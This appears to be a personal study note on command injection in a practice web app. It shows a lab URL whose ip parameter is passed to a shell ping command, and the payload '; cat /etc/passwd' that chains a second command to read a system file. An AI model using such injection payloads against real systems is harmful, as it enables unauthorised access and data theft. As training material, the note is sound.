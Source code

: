 # Commands Injection

Refer to Reconnissance{link} for file and command knowledge.
## Example 1 - ping through URL

`http://172.16.219.145/commandexec/example1.php?ip=127.0.0.1`
- this site returns the following to the webpage

![[Pasted image 20250413190446.png]]

- we can assume everything after `ip=` is executed in the Linux shell as follows

```bash
ping <user_input>
```

### Payload

`; cat /etc/passwd`
- `;` lets us inject another command besides pinging

<img src="https://raw.githubusercontent.com/ryancranie/webappsec/refs/heads/main/_img/Pasted%20image%2020250413192615.png" width="600"/>

